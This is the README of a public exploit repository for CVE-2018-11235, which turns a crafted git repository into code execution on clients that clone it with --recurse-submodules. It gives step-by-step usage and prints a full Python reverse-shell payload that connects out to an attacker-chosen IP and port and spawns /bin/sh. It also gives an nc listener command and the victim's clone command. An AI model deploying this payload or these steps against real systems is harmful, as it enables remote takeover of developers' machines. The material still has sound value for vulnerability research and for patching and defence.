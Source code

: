 Headers
=========

Exploit Title: Clone and Pwn<br />
Date: June 4th, 2018
Exploit Author: Alejandro Caceres
Vendor Homepage: https://git-scm.com/
Software Link: https://git-scm.com/downloads
Version: arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before 2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1
Tested on: Linux: Ubuntu, Mint
CVE : CVE-2018-11235


Exploit for CVE-2018-11235 Usage
==============================

CVE-2018-11235, dubbed clone and pwn here, creates a malicious git repo that exploits a bug in git. When the repo is cloned using the
--recurse-submodules flag, arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1.

To use this module simply put it on a server with direct internet access (e.g. AWS, digital ocean) and pop open `evil.sh`. It will look
something like the following:

```
#!/usr/bin/python

EXTERN_IP="127.0.0.1"
EXTERN_PORT=8080

#reverse shell to IP EXTERN_IP and port EXTERN_PORT
import socket, subprocess, os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((EXTERN_IP, EXTERN_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Set EXTERN_IP and EXTERN_PORT to the IP (external) and port you'd like to receive your reverse shell on. A reverse shell can be received with something like:

`nc -l <EXTERN_IP> EXTERN_PORT` e.g. `nc -l 193.23.23.32 8080`

Or with Metasploit's generic shell module. Once the user has run the command `git clone --recurse-submodules git://<your ip>/repo dest_dir` you will receive a reverse shell.

If you're having trouble running multiple times (or after a failed attempt) check the following:

- Run ./clean.sh, note this will delete all data in /tmp
- check the processes with `ps aux | grep git` to ensure you aren't already running gitdaemon. Kill any gitdaemon processes.

Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44

This script adapted from https://github.com/Rogdham/CVE-2018-11235, much love and credit

=======
# clone_and_pwn
Exploits CVE-2018-11235

By @_hyp3ri0n and @mehaase